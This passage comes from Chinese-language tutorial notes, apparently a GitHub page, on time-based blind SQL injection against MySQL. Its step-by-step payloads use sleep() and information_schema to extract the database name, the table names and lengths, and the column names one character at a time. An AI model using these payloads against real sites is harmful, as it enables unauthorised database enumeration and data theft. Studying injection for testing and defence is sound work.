 ###### ②获取数据库名称

```sql
1' and if(ascii(substr(database(),m,1))=m,sleep(10),0) --+		//65<=m<=122
```

###### ③获取表名长度

```sql
1' and if(exp1,sleep(10),0) --+
exp1= length((select count(table_name)from information_schema.tables where table_schema=database() limit 0,1))
综上：
1' and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=m,sleep(10),0) --+		//m为表名长度
```

```sql
//获取表的个数
1' and if(exp1,sleep(10),0) --+
exp1= select count(*) from information_schema.tables where table_schema=database())=m
综上:
1' and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(10),0) --+	//m为表的个数
```

###### ④获取表名

```sql
1' and if(exp1,sleep(10),0) --+
exp1= ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m
综上：
1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m,sleep(10),0) --+			//n为表名的第几个位置，m为ascii范围[65,122]
```

###### ⑤获取字段长度

```sql
1' and if(length(),sleep(10),0) --+
exp1= length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=m
综上：
1' and if(length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=2,sleep(10),0) --+		//m为字段名长度 

//获取字段个数
1' and if((select count(*) from information_schema.columns where table_schema=database() and table_name='表名')=m,sleep(10),0) --+	//m为表的个数
```

###### ⑥获取字段名

```sql
1' and if(exp1,sleep(10),0) --+
exp1= ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m
综上：
1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m,sleep(10),0) --+		//n为字段名的位置，m为ascii范围[65,122]
```
